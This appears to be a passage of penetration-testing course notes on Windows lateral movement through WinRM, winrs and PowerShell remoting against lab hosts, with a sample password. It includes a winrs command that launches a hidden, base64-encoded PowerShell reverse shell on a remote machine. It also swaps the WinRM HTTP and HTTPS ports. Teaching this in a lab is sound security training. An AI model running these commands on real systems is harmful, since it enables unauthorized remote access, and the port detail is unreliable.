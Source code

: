 Translating this attack into PowerShell syntax requires a few extra details. We need to create a [*PSCredential*](https://docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.2) object that will store our session username and password. To do that, we will first store the username and password in the respective variables and then secure the password via the **ConvertTo-SecureString** cmdlet. Finally, we'll create a new PSCredential object with the given username and **secureString** object.
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```
...
TODO
TODO


#### WinRM
As an alternative method to WMI for remote management, WinRM can be employed for remote hosts management. WinRM is the Microsoft version of the [WS-Management](https://en.wikipedia.org/wiki/WS-Management) protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5985 for encrypted HTTPS traffic and port 5986 for plain HTTP.

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as [winrs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) (Windows Remote Shell).

The winrs utility can be invoked by specifying the target host through the `-r`: argument and the username and password with `-u`: and `-p`, respectively. As a final argument, we want to specify the commands to be executed on the remote host. For example, we want to run the hostname and whoami commands to prove that they are running on the remote target.

Since winrs only works for domain users, we'll execute the whole command once we've logged in as jeff on CLIENT74 and provide jen's credentials as command arguments.
```batch
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

> **Note**:
> For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with the base64 encoded reverse-shell we wrote earlier (catch this using a nc listener on Kali VM).
```batch
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

PowerShell also has WinRM built-in capabilities called [*PowerShell remoting*](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2), which can be invoked via the *New-PSSession* cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously.
```powershell
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

```